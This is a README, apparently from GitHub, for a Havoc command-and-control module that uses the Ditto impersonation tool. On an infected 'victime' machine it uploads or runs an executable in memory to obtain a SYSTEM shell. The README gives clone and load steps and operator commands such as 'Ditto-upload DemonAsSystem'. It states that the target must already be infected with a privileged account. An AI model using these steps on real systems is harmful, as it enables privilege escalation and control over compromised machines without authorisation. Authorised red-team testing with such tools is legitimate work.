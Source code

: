 # Havoc_impersonnate

Havoc impersonnate module integrate impersonnate directly in havoc.

The script take 3 binarie file. 2 files was copy paste of object file in NoConsoolation module. the last file is Ditto.exe, that impersonnate file. Thanks to @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repo.

The module can upload ditto.exe (or other file) on victime or Launch executable directly in memory.

# Installation

1. Install python dependecie.
```
pip install argparse 
```

2. Clone the repo
```
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After clone. Go on your Havoc client.

3. Click on script tab and open script manager window.

![Screenshot havoc](img/image.png)

4. Click Load Script choose impersonnate.py and open it

![Scrennshot havoc 1](img/image1.png)

One line appears in script manager tab.

The Script was load in havoc

# Using guide
## Prerequire

You need to infect you'r target and you need privileged account before using this module.

![alt text](image.png)

After this Enjoy.

## Upload
### Etape 1

This command is use to set the local file to upload in your target.

The upload take id of your session.



``` Havoc
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```


Recupérer shell System :
```Havoc
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Executer commande personaliser pour Ditto :

``` Havoc
Ditto-upload Exec help
```

## In Memory
### Etape 1

``` Havoc
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

Recupérer shell System :
```Havoc
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Executer commande personaliser pour Ditto :

``` Havoc
Ditto-Memory Exec help
```

